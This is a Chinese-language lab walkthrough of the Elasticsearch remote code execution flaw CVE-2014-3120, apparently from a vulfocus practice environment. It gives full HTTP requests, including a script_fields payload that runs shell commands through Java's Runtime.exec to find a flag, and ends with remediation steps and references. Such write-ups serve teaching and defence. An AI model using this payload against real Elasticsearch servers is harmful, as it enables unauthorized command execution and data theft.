 ElasticSearch命令执行漏洞(CVE-2014-3120)

## 一、漏洞描述

Elasticsearch 是一个基于 Lucene 库的搜索引擎，具有 HTTP Web 接口和无模式 JSON 文档。Elasticsearch 是用 Java 开发的，其支持 MVEL、js、Java 等语言，其老版本默认语言为 MVEL。

MVEL -一个被众多 Java 项目使用的开源的表达式语言。

Elasticsearch 1.2之前的版本默认配置启用了动态脚本，该脚本允许远程攻击者通过 _search 的 source 参数执行任意 MVEL 表达式和 Java 代码。

## 二、影响版本

Elasticsearch < 1.2


## 三、利用流程



1 启动 CVE-2014-3120 镜像，打开其访问地址查看，可见其版本为1.1.1

![avatar](./1.png)

![avatar](./2.png)

2 向 Elasticsearch 添加一条数据

![avatar](./3.png)

其数据包为

    POST /website/blog/ HTTP/1.1
    Host: 118.193.36.37:33967
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:76.0) Gecko/20100101 Firefox/76.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Connection: close
    Upgrade-Insecure-Requests: 1
    Cache-Control: max-age=0
    Content-Length: 26
    
    {
      "name": "vulfocus"
    }

3 script 为最终执行 Java 代码的地方，此字段会被默认当作脚本执行，按照其 json 格式向其填充要执行的代码即可

![avatar](./4.png)

最终目的为 /tmp 下的 flag，其数据包为

    POST /_search?pretty HTTP/1.1
    Host: 118.193.36.37:33967
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:76.0) Gecko/20100101 Firefox/76.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Connection: close
    Upgrade-Insecure-Requests: 1
    Cache-Control: max-age=0
    Content-Length: 361
```
{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {
        "command": {
            "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"ls /tmp\").getInputStream()).useDelimiter(\"\\\\A\").next();"
        }
    }
}
```
4 填入得到的 flag，成功则出现 恭喜！通过

![avatar](./5.png)

![avatar](./6.png)

## 四、修复方案

1、升级到新版本，大于等于1.2版本即可解决此问题

2、设置 script.disable_dynamic = true，官方已在1.2版本中将 true 设置为默认值


参考：

https://nvd.nist.gov/vuln/detail/CVE-2014-3120

https://www.elastic.co/cn/community/security/

https://www.elastic.co/guide/en/elasticsearch/reference/current/modules-scripting.html

http://www.elasticsearch.org/guide/en/elasticsearch/reference/current/search-request-script-fields.html

https://github.com/elastic/elasticsearch/issues/5853

https://vulhub.org/#/environments/elasticsearch/CVE-2014-3120/

https://www.t00ls.net/viewthread.php?tid=29408
